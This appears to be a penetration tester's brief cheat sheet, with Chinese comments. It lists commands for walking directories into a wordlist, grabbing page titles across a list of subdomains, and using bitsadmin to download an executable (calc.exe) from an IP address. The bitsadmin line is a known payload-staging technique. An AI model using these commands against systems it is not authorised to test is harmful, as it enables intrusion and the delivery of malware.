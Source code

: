 		for /R "d:\xldown" %s in (.) do echo %s >> dir.dict	#win遍历目录
		dir /s/b d:\xldown					#win遍历目录带搜索功能
		find ./ -type f 					#linux 遍历文件
		
		for i in $(cat subdomains.dict);do echo $i && curl -s $i|iconv -t utf8|grep -o "<title.*</title>";done		获取title
		bitsadmin /rawreturn /transfer getfiles http://192.168.1.1/calc.exe c:\calc.exe								下载文件
